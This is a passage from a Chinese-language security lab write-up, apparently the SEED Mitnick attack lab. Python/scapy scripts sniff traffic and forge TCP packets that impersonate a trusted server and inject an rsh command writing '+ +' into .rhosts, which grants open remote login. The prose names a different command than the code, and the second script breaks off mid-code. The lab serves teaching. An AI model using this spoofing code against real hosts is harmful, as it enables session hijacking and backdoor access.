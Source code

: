 构造ip头以及tcp，注意tcp源端口需要为"1023"，标志位需要为"S"，向`X-Terminal`主机发送SYN包。

#### 5. 建立第一个TCP连接——伪造SYN-ACK响应包

发送SYN包后，`X-Terminal`会发送SYN+ACK响应包，`Attacker`主机需要伪造ACK响应包回复。其中包含了 ip, tcp, data等信息，data数据中包含了`touch /home/seed/xyz`命令。

`python`：

```python
from scapy.all import *

# 2.伪造SYN+ACK响应包
def spoof(pkt):
    if pkt[TCP].flags == "SA" and pkt[IP].src == "10.9.0.5":
        old_ip = pkt[IP]
        old_tcp = pkt[TCP]
        tcp_len = old_ip.len - old_ip.ihl * 4 - old_tcp.dataofs * 4
        print("{}:{} -> {}:{} Flags={} Len={}".format(old_ip.src, old_tcp.sport, old_ip.dst, old_tcp.dport, old_tcp.flags, tcp_len))

        ip = IP(src="10.9.0.6", dst="10.9.0.5")
        tcp = TCP(sport=1023, dport=pkt[TCP].sport)
        tcp.flags = "A"
        tcp.seq = pkt[TCP].ack
        tcp.ack = pkt[TCP].seq + 1
        # 伪造rsh数据包
        data = "9090\x00seed\x00seed\x00echo + + > /home/seed/.rhosts\x00"
        p = ip / tcp / data
        send(p, verbose=0)


myFilter = 'tcp'  # You need to make the filter more specific
sniff(iface='br-ac4a3b4d5a3d', filter=myFilter, prn=spoof)
```

进行sniff嗅探`X-Terminal`主机发送的SYN+ACK包，根据该包构造ip头和tcp头，设置标志位为"A"表示ACK包，注ack序号应为SYN+ACK包的`seq+1`，并添加rsh data数据段，添加命令，命令格式为`[port_number]\x00[uid_client]\x00[uid_server]\x00[your command]\x00`  。

数据包括四个部分：一个端口号、 一个客户端的用户ID、 一个服务器的用户ID和一个命令。该端口号将用于第二个连接。 客户端和服务器的用户ID在本实验中都为”seed” 。 这四个字段用一个字节0分隔。

#### 6. 建立第二个TCP连接——伪造ACK包

建立第一个连接后，X-Terminal将启动第二次连接，rshd使用此连接来发送错误消息。在本实验中，这个连接不 会被使用。但如果这个连接没有建立，rshd将停止而不执行命令。因此，需要伪造第二个连接来确保命令的执行。  

编写另一个程序，嗅探发送到可信服务器9090端口的TCP流量（假设之前使用9090端口）。当嗅探到一个SYN包时，应该用一个SYN+ACK包来响应。

如果两个连接都已成功建立， 则rshd将执行包含在rsh数据包中的命令。 检查/home/seed/文件夹， 并查看是否创建了/home/seed/， 以及其时间戳是否与当前的时间相匹配 。

`python`：

```python
from scapy.all import *

# 3.伪造SYN响应包
def spoof(pkt):
    if pkt[TCP].flags == "S" and pkt[IP].src == "10.9.0.5":
        old_ip = pkt[IP]
        old_tcp = pkt[TCP]
        tcp_len = old_ip.len - old_ip.ihl * 4 - old_tcp.dataofs * 4
        print("{}:{} -> {}:{} Flags={} Len={}".format(old_ip.src, old_tcp.sport, old_ip.dst, old_tcp.dport, old_tcp.flags, tcp_len))

        ip = IP(src="10.9.0.6", dst="10.9.0.5")
        tcp = TCP(sport=9090, dport=pkt[TCP].sport)
        tcp.flags = "SA"
        tcp.seq = pkt[TCP].seq
```